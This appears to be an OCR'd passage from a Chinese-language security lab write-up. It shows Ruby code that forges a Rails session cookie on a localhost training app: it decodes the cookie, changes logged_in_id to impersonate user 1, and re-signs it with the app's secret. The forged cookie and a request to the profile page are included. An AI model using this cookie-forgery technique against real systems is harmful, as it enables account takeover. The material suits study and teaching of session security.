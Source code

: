 ```ruby
agent = Mechanize.new 实例化对象
url = "http://localhost:3000/login"

page = agent.get(url)  获得网页

form = page.forms.first  第一个表单
form['username'] = form['password'] = 'attacker'  填写表单，用户名和密码都是attacker
agent.submit form  提交表单
```

这就相当于登陆了，然后我们获得cookie信息

```ruby
cookie = agent.cookie_jar.jar['localhost']['/'][SESSION].to_s.sub("{SESSION}=", '')
cookie_value, cookie_signature = cookie.split('--')
raw_session = Base64.decode64(cookie_value)
session = Marshal.load(raw_session)
```

session如下:

```json
{"session_id"=>"66ef9a22ca26e27ea4d3018b12c07999", "token"=>"q2VXDRnMskkf-69Gu2PiTg", "logged_in_id"=>4}
```

很明显， 我们只需要修改 `logged_in_id` 为1即可

```ruby
session['logged_in_id'] = 1
cookie_value = Base64.encode64(Marshal.dump(session)).split.join  get rid of newlines
cookie_signature = OpenSSL::HMAC.hexdigest(OpenSSL::Digest::SHA1.new, RAILS_SECRET, cookie_value)
cookie_full = "{SESSION}={cookie_value}--{cookie_signature}"

puts "document.cookie='{cookie_full}';"
```

这时候得到的session

```
document.cookie='_bitbar_session=BAh7CEkiD3Nlc3Npb25faWQGOgZFVEkiJTY2ZWY5YTIyY2EyNmUyN2VhNGQzMDE4YjEyYzA3OTk5BjsAVEkiCnRva2VuBjsARkkiG3EyVlhEUm5Nc2trZi02OUd1MlBpVGcGOwBGSSIRbG9nZ2VkX2luX2lkBjsARmkG--935e2e8f9f3d190f2ffccdf9cafd9e4480319054';
```

然后再发送数据，比如访问 `http://localhost:3000/profile`

```ruby
url = URI('http://localhost:3000/profile')

http = Net::HTTP.new(url.host, url.port)

header = {'Cookie':cookie_full}
response = http.get(url,header)
puts response.body
```

